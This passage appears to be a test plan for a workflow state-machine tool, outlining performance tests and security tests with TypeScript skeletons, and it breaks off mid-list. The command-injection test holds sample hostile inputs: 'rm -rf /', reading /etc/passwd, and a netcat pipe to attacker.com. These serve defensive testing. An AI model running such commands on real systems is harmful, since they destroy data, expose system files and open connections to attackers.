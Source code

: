 #### 1.2 Performance Test Enhancement
**Location**: `tests/workflow/performance/`

**Enhanced Components**:
- Expand existing `fsm-performance.test.ts`
- Create `startup-performance.test.ts`
- Create `memory-usage.test.ts`
- Create `scalability.test.ts`

**Performance Validation Patterns**:
```typescript
describe('Performance Requirements', () => {
  test('complete workflow system startup < 500ms', async () => {
    const startTime = performance.now();
    
    // Complete startup sequence: YAML loading + parser + FSM + first state
    const workflows = await loadWorkflows('.aisanity-workflows.yml');
    const parser = new WorkflowParser();
    const parsedWorkflows = parser.parse(workflows);
    const fsm = new StateMachine(parsedWorkflows.deploy, logger);
    await fsm.prepareFirstState(); // Prepare first state for execution
    
    const duration = performance.now() - startTime;
    expect(duration).toBeLessThan(500);
  });

  test('FSM initialization < 20ms', async () => {
    const startTime = performance.now();
    const fsm = new StateMachine(workflows.deploy, logger);
    const duration = performance.now() - startTime;
    expect(duration).toBeLessThan(20);
  });

  test('memory usage remains reasonable', async () => {
    // Test with multiple workflow instances
  });

  test('large workflow handling', async () => {
    // Test with 50+ state workflows
  });
});
```

#### 1.3 Security Test Completion
**Location**: `tests/workflow/security/`

**Components to Create**:
- `command-injection.test.ts` - Injection prevention
- `path-traversal.test.ts` - File system protection
- `template-validation.test.ts` - Template security
- `timeout-enforcement.test.ts` - Timeout security

**Security Test Patterns**:
```typescript
describe('Security Validation', () => {
  test('prevents command injection', async () => {
    const maliciousInputs = [
      '; rm -rf /',
      '&& cat /etc/passwd',
      '| nc attacker.com 4444'
    ];
    // Verify all blocked
  });

  test('allows legitimate development patterns', async () => {
    const validPatterns = [
```